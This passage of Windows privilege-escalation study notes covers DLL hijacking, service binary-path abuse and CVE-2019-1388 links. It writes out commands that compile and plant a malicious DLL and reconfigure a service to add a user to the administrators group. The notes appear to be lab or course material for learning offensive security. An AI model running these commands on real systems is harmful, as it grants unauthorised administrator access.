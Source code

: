 	- `x86_64-w64-mingw32-gcc hijackme.c -shared -o hijackme.dll`
- Deliver the file to windows machine and replace the dll file.
- Restart the dll service
	- `sc stop dllsvc & sc start dllsvc`
- `net localgroup administrators` - We now have new user added on administrative group.
- For more DLL Hijacking: https://steflan-security.com/windows-privilege-escalation-dll-hijacking/
- Even More: https://systemweakness.com/windows-privilege-escalation-hijacking-dlls-c2f26168bf37

## Escalation Path: Service Permissions (Paths)
**Escalations via Binary Paths**
- Detection
	- Powerup
		- `. .\PowerUp.ps1`
		- `Invoke-AllChecks`
  - Manual
  	- `accesschk64.exe -uwcv Everyone *`
  	- After finding a service. Example: daclsvc
  		- `accesschk64.exe -wuvc daclsvc`
  		- See if we have `SERVICE_CHANGE_CONFIG` permission.
- Exploitation
  - Query the service
  	- `sc qc daclsvc`
  - We can see the binary path name. 
  - Since we have SERVICE_CHANGE_CONFIG permission, lets change it.
  - `sc config daclsvc binpath= "net localgroup administrators user /add`
  - `sc start daclsvc`
  - `net localgroup administrators`

## Escalation Path: CVE-2019-1388
- More Info: https://justinsaechao23.medium.com/cve-2019-1388-windows-certificate-dialog-elevation-of-privilege-4d247df5b4d7
- More Info: https://github.com/nobodyatall648/CVE-2019-1388

## References
- https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842
- https://academy.tcm-sec.com/
